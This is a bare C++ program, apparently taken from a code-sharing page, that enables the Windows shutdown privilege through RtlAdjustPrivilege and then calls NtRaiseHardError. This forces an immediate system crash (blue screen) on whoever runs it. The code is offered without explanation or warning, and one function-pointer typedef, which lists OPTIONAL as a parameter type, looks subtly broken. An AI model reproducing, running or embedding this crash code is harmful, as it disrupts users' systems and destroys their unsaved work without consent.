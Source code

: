 #include <iostream>
#include <Windows.h>
#include <winternl.h>
using namespace std;
typedef NTSTATUS(NTAPI * NtRaiseHardError_p)(NTSTATUS, ULONG, ULONG, OPTIONAL, PULONG_PTR, ULONG, PULONG);
typedef NTSTATUS(NTAPI * RtlAdjustPrivilege_p)(ULONG, BOOLEAN, BOOLEAN, PBOOLEAN);
int main()
{
    auto adjust_priv = (RtlAdjustPrivilege_p)GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlAdjustPrivilege");
    auto raise_error = (NtRaiseHardError_p)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtRaiseHardError");
    auto status = adjust_priv(19, TRUE, FALSE, nullptr); 
    raise_error(STATUS_FLOAT_MULTIPLE_FAULTS, 0, 0, 0, 6, nullptr); 
    return 0;
}
